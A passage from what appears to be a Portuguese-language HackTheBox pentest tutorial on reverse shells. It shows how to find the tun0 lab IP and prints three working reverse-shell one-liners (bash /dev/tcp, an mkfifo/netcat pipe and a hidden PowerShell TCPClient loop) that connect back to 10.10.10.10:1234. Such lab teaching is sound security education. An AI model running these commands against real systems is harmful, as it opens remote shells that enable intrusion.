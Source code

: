 
Agora que temos um `netcat` ouvinte aguardando uma conexão, podemos executar o comando shell reverso que se conecta a nós.

#### Conectar IP de volta

No entanto, primeiro precisamos encontrar o IP do nosso sistema para enviar uma conexão reversa de volta para nós. Podemos encontrar nosso IP com o seguinte comando:

```shell-session
casluxd@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

Em nosso exemplo, o IP que nos interessa está em `tun0`, que é a mesma rede HTB à qual nos conectamos por meio de nossa VPN.

Nota: Estamos nos conectando ao IP em 'tun0' porque só podemos nos conectar às caixas HackTheBox através da conexão VPN, pois elas não possuem conexão com a Internet e, portanto, não podem se conectar a nós pela Internet usando `eth0`. Em um pentest real, você pode estar conectado diretamente na mesma rede, ou realizando um teste de penetração externo, então você pode se conectar através do adaptador `eth0` ou similar.

#### Comando Shell Reverso

O comando que executamos depende do sistema operacional em que o host comprometido é executado, ou seja, Linux ou Windows, e quais aplicativos e comandos podemos acessar. A página [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) tem uma lista abrangente de comandos de shell reverso que podemos usar que cobrem uma ampla gama de opções, dependendo do nosso host comprometido.

Certos comandos de shell reverso são mais confiáveis ​​do que outros e geralmente podem ser tentados para obter uma conexão reversa. Os comandos abaixo são comandos confiáveis ​​que podemos usar para obter uma conexão reversa, em `bash` hosts comprometidos do Linux e `Powershell` em hosts comprometidos do Windows:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
